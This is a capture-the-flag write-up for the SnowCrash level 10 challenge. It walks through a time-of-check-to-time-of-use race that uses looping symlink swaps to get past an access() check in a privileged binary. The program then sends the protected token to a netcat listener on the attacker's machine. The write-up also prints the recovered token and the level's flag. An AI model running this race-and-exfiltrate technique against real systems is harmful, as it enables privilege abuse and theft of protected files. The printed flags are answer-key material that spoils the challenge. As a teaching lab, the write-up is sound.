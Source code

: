 # Level 10

In this level we have 2 files. The first is a file named `token` and the second is a binary.  
This program take a file and ip address. An `access` control is take with the function `access`
and the file is `read and send` in the `address ip`.  

So first to understand the behaviour, we can use this program with a file who has permissions.  

```bash
level10@SnowCrash:~$ ./level10 /tmp/test 192.168.56.114
Connecting to 192.168.56.114:6969 .. Unable to connect to host 192.168.56.114
```

We know that we need to listen the port 6969. 

```bash
┌─[✗]─[parrot@parrot]─[~]
└──╼ $nc -lp 6969
```

Result:

```bash
level10@SnowCrash:~$ ./level10 /tmp/test 192.168.56.114
Connecting to 192.168.56.114:6969 .. Connected!
Sending file .. wrote file!

┌─[✗]─[parrot@parrot]─[~]
└──╼ $nc -lp 6969
.*( )*.
hello
```

Secondly we can try with the file named `token`. Without suprises it's not working !

```bash
level10@SnowCrash:~$ ./level10 token 192.168.56.114
You don't have access to token
```

We can try to create a `symbolic link`.

```bash
level10@SnowCrash:~$ ln -sf $PWD/token /tmp/token
level10@SnowCrash:~$ ./level10 /tmp/token 192.168.56.114
You don't have access to /tmp/token
```

It's not working. After a time to search solution, we have find that the `access` function can be exploit.

## TOCTOU (Time Of Check To time of Use)  
It's a [race condition](https://shadowintel.medium.com/race-condition-attacks-b687c211592c). It's mean that 2 processes have access on same data.  
Between `check access` and `using data` we can exploit a race condition.  
In other word, we can try to do "You have access of this file" at the beginning and do "Oh! You are reading a file in which you haven't permissions" at the end.
To do this we can use this lines:  

```bash
level10@SnowCrash:~$ while true; do touch /tmp/token && ln -sf $PWD/token /tmp/token && rm -rf /tmp/token; done;
level10@SnowCrash:~$ while true; do ./level10 /tmp/token 192.168.56.114; done;
┌─[parrot@parrot]─[~]
└──╼ $nc -klp 6969
.*( )*.
woupa2yuojeeaaed06riuj63c
```

We send our commands in infinite loop to hope to have a chance to create a `race condition`.  
To receive the data we must use `nc -lkp PORT` in the host. We using the `-k` option to force nc to stay listenning.


```bash
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
